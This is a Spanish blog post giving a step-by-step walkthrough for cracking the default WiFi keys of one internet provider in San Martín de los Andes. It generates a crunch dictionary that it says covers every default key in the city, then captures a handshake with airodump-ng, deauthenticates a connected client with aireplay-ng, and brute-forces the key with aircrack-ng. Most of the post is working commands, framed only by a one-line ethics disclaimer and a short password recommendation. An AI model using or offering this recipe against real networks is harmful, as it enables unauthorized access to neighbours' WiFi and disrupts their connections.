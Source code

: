```yaml
---
title: "WiFi Cooperativo en la aldea de montaña"
date: 2021-01-13T00:00:00-03:00
author: "bronxi"

draft: false

tags: ["wifi","aircrack","brute force"]
categories: ["wifi","brute foce"]
featuredImage: "/images/wifialdea/wifipass.png"
lightgallery: true

---
```



# WiFi Cooperativo en la aldea de montaña

*Esta prueba se realizó en un entorno controlado con los permisos de los clientes adjudicatarios de los dispositivos involucrados, con el fin único de reconocer el nivel de seguridad de acceso a los dispositivos wifi desde una perspectiva ética de investigación en InfoSec.*

Pasé tres semanas en San Martín de los Andes y noté que las claves WiFi por defecto del único proveedor de Internet tienen un patrón sumamente sencillo. Poseen 8 dígitos y todas comienzan con los mismos cuatro caracteres y los últimos 4 son alfanuméricos aleatorios. Por lo que existen solamente 1679616 posibilidas. Para generar un diccionario con dichas líneas, utilizaré la herramienta crunch.

## Instalar crunch & dictionary
Pueden intalarla en cualquier distribución Debian con el siguiente comando (Kali ya lo trae):

> sudo apt-get install -y crunch


El comando para crear este diccionario es muy sencillo

> crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 -t cote@@@@ -o cotexxxx.txt

El primer 8 es el mínimo de caracteres de las claves y el segundo 8 el máximo de caracteres. Aquí solo necesitamos claves de 8 caracteres.
El string "abcdefghijklmnopqrstuvwxyz0123456789" que le sigue determina los caracteres a utilizar para la porción aleatoria de las claves.
La opción "-t" especifica un patrón para los caracteres aleatorios. En este caso es @, que se trata de minúsculas y también tomará los números que hemos indicado anteriormente. A esto le sigue la estructura del patrón "cote@@@@". Las @s serán los caracteres reemplazados por todas las variantes de la a a la z y del 0 al 9.
La opción "-o" indica la salida. Nombramos el archivo como nos guste.

__Ahora contamos con un diccionario que contiene todas las claves por defecto de la ciudad__


El siguiente paso es conseguir el archivo que contenga el handshake cifrado de la red WiFi. Para ello utilizamos aircrack-ng.

## Instalar aircrack
Para instalarlo en cualquier versión Debian (Kali también lo trae):

> sudo apt install aircrack-ng

## Our WiFi Interface

Nos fijamos el nombre de nuestra placa con ifconfig

> ifconfig

> wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fa80::4g23:98l6:ka0:3436  prefixlen 64  scopeid 0x20<link>
        ether 59:96:1b:95:b0:2d  txqueuelen 1000  (Ethernet)
        RX packets 275495  bytes 308923532 (308.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 103650  bytes 21966607 (21.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


Antes de comenzar realizamos un check kill para evitar cualquier conflicto.

> sudo airmon-ng check kill


## Monitor Mode

Luego ponemos nuestra placa wifi en modo monitor:

> sudo airmon-ng start wlan0

## Redes WiFi en nuestro aire
Escaneamos las redes:

> sudo airodump-ng wlan0mon

## Escuchando por un handshake
Una vez elegido el accesspoint al que queremos acceder, con ctrl + c detenemos el escaneo y nos pondremos a la escucha del accesspoint seleccionado:

> sudo airodump-ng -c 6 --bssid 00:01:12:56:32:56 -w nombredelarchivocondatosescuchados wlan0mon

Acá "-w" indica el nombre del archivo en el que se guardarán los datos capturados. "-c" indica en canal por el que trabaja el accesspoint. "-b" indica la MAC del accesspoint (BSSID). Por último, la interface que usamos, en este caso "wlan0mon". Al darle enter comenzará a escuchar ese accesspoint.

Veremos la cantidad de paquetes capturados y perdidos. En al parte inferior de la terminal, se observan los clientes conectados al accesspoint, elegimos uno para deantenticar y obtener el handshake (paquete que contiene la clave WiFi encriptada).

## Deauntenticar al cliente
Mientras el proceso anterior continúa corriendo, en otra terminal realizamos una deautenticación del cliente con los datos copiados. Es decir, del BSSID (accesspoint) y de una STATION (cliente).

> aireplay-ng -0 10 -a 00:01:12:56:32:56 -c 00:00:10:A0:05:06 wlan0mon

Acá "-0" indica la orden deauntenticar. "-a" la MAC del accesspoint. "-c" la MAC del cliente a deauntenticar. Por último, la interfaz que utilizamos en modo monitor, en este caso "wlan0mon".

Al conseguir el handshake, se notificará en la terminal que está escuchando, abierta en el punto *Escuchando por un handshake* Se obersva el mensaje en la parte superior derecha.

Verán algo así:

![Handshake](/images/wifialdea/handshake.png "Handshake")

## Brute force final
Por último, utilizamos fuerza bruta para probar todas las claves del diccionario sobre el archivo que contiene el handshake con el siguiente comando:

> sudo aircrack-ng -w cotexxxx.txt -b 00:01:12:56:32:56 nombredelarchivocondatosescuchados.cap

> KEY FOUND! [ cotefr33 ]

## Recomendaciones:
- Generar claves de diez caracteres en la que todos sus caracteres sean aleatorios.

¡Disfruten el lago, la montaña y un WiFi seguro!
